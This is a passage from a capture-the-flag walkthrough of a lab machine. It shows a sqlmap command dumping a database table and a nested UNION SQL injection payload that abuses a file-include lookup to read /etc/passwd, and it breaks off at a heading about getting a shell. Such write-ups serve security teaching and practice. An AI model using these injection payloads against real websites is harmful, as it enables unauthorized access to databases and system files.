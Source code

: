 It worked, returning the about page:

![1561207648919](https://0xdfimages.gitlab.io/img/1561207648919.png)

#### Controlling tpl –> inc

Now that I can put whatever I want into tpl, I’ll inject again to control what is included in the page. From the source, I see the SQL query will be:

```

SELECT path from filepath where name = $tpl

```

Again, I can use the injection to see what’s in that table:

```

root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T filepath --dump
...[snip]...
+---------+--------------------------------------+
| name    | path                                 |
+---------+--------------------------------------+
| about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
| contact | 0f710bba8d16303a415266af8bb52fcb.php |
| main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
+---------+--------------------------------------+

```

The table maps the tpl string to a page to include.

So fully control that, I want the query to look like:

```

SELECT path from filepath where name = 0xdf UNION select /etc/passwd

```

Since 0xdf does not exist, the only return will be the path I passed, `/etc/passwd`.

Since I need this to pass through the previous function, I’ll start with that injection, and replace `about` with the second injection:

```

587' and 1=2 UNION select '0xdf\' union select \'/etc/passwd\'-- -'-- -

```

That worked, I got `/etc/passwd`:

![1561208177648](https://0xdfimages.gitlab.io/img/1561208177648.png)

### Shell

